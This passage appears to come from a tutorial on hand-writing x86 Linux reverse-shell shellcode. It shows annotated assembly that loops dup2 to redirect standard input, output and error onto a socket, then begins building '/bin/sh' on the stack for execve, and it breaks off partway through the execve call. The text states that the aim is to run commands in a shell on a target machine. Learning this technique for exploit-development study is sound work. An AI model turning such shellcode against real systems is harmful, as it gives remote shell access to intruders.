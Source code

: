 <h3>dup2 Function Synopsis</h3>

```c
#include <unistd.h>

int dup2(int oldfd, int newfd);
```

<p style="text-align:justify;">After the connect system call, there must be a redirection from standard input, output and error descriptors to the <strong>socket</strong> descriptor created from the <strong>socket</strong> system call. This has to be done in order to be able to initiate commands in a shell environment at the target machine. The following description has been taken from Linux manual page: The <strong>dup2</strong> system call performs the same task as <strong>dup</strong>, but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor specified in <strong>newfd</strong>. If the file descriptor <strong>newfd</strong> was previously open, it is silently closed before being reused.</p>

<h3>Dup2 :</h3>


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#33cccc;">;;dup2(sockfd, 2);</span>
<span style="color:#33cccc;">;;dup2(sockfd, 1); </span>
<span style="color:#33cccc;">;;dup2(sockfd, 0);</span>
   
mov ebx, esi   <span style="color:#33cccc;">; move sockfd descriptor to ebx </span>
xor ecx, ecx   <span style="color:#33cccc;">; zero out the ecx register before using it </span> 
lo:
  mov al, 0x3f <span style="color:#33cccc;">; the functional number that indicates dup2 (63 in dec) </span>
  int 0x80     <span style="color:#33cccc;">; call dup2 syscall  </span>
  inc ecx      <span style="color:#33cccc;">; increase the value of ecx by 1 so it will take all values 0(stdin), 1(stdout), 2(stderr) </span>
  cmp cl, 0x2  <span style="color:#33cccc;">; compare ecx with 2 which indicates the stderr descriptor </span>
  jle lo       <span style="color:#33cccc;">; loop until counter is less or equal to 2 </span>
</pre>

<h3>execve Function Synopsis</h3>
<p style="text-align:justify;">Now that the standard input, output and error are pointing to 0,1,2 file descriptors, the run the <strong>execve</strong> function will be run in order to execute the <strong>/bin/sh</strong> command to the target host.</p>

```c
#include <unistd.h>

int execve(const char *filename, char *const&nbsp;argv[],
char *const&nbsp;envp[]);
```

<h3>Execve:</h3>


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
;; execve("/bin/sh", 0, 0);
xor eax, eax      <span style="color:#33cccc;">; zero out the eax register </span>
push eax          <span style="color:#33cccc;">; push NULL into the stack  </span>
push 0x68732f2f   <span style="color:#33cccc;">; push "hs//" in reverse order into stack </span>
push 0x6e69622f   <span style="color:#33cccc;">; push "nib/" in reverse order into stack </span>
mov ebx, esp      <span style="color:#33cccc;">; point ebx into stack </span>
push eax          <span style="color:#33cccc;">; push NULL into the stack </span>
mov edx, esp      <span style="color:#33cccc;">; point to edx into stack </span>
push ebx          <span style="color:#33cccc;">; push ebx into stack </span>